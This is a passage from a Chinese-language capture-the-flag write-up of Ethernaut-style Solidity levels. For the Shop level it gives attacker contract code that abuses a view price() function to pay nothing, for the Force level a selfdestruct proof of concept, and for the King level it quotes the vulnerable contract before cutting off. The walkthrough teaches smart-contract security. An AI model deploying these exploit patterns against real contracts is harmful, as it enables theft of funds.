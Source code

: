 看起来类似电梯那个题目，但是buyer.price()是view的函数，不能更改状态。所以只能利用外部进行。发现isSold变量在两次调用price之间有更改。因此写合约利用这个isSold返回不同的bool值.

```
contract buyer{
    address shop =0xc3Ce8A0921980063AadA4cf475CA91C7e8E81a63;
    function price() external view returns (uint256){
        if (Shop(shop).isSold()==false){
            return 120;
        }else{
            return 0;
        }
    }
    function callshop()external{
        Shop(shop).buy();
    }
}
```



#### Force

这一关的目标是使合约的余额大于0

这个合约没有实现任何方法来接受以太。

但是可以通过合约自毁的方式，指定将余额转给Force合约。

POC:

```
pragma solidity ^0.8.0;

contract mine{
    constructor()payable {
    }

    function forcetransfer()public {
        selfdestruct(payable(0xcaa382a24236a3FB17A40367e4FC0961214B8cF3));
    }

}
```



#### King

要求成为king，阻止关卡重新声明王位

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
```